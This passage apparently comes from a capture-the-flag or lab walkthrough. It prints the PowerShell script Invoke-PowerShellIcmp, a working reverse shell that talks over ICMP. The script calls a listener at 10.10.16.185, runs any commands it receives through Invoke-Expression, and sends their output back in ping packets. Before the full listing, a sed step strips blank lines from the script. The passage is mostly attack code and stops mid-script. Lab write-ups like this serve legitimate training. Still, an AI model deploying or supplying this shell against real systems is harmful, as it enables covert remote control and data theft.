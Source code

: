 ```
            }
            $sendbytes = ([text.encoding]::ASCII).GetBytes("`nPS " + (Get-Location).Path + '> ')
            $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
        }
        else
        {
            Start-Sleep -Seconds $Delay
        }
    }
}


Invoke-PowerShellIcmp -IPAddress 10.10.16.185
```

Remove break lines or empty lines:

```
❯ cat Invoke-PowerShellIcmp.ps1 | sed '/^\s*$/d'
function Invoke-PowerShellIcmp
{
    [CmdletBinding()] Param(
        [Parameter(Position = 0, Mandatory = $true)]
        [String]
        $IPAddress,
        [Parameter(Position = 1, Mandatory = $false)]
        [Int]
        $Delay = 5,
        [Parameter(Position = 2, Mandatory = $false)]
        [Int]
        $BufferSize = 128
    )
    $ICMPClient = New-Object System.Net.NetworkInformation.Ping
    $PingOptions = New-Object System.Net.NetworkInformation.PingOptions
    $PingOptions.DontFragment = $True
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '> ')
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
    while ($true)
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes('')
        $reply = $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions)
        if ($reply.Buffer)
        {
            $response = ([text.encoding]::ASCII).GetString($reply.Buffer)
            $result = (Invoke-Expression -Command $response 2>&1 | Out-String )
            $sendbytes = ([text.encoding]::ASCII).GetBytes($result)
            $index = [math]::floor($sendbytes.length/$BufferSize)
            $i = 0
            if ($sendbytes.length -gt $BufferSize)
            {
                while ($i -lt $index )
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..(($i+1)*$BufferSize-1)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                    $i +=1
                }
                $remainingindex = $sendbytes.Length % $BufferSize
                if ($remainingindex -ne 0)
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..($sendbytes.Length)]
```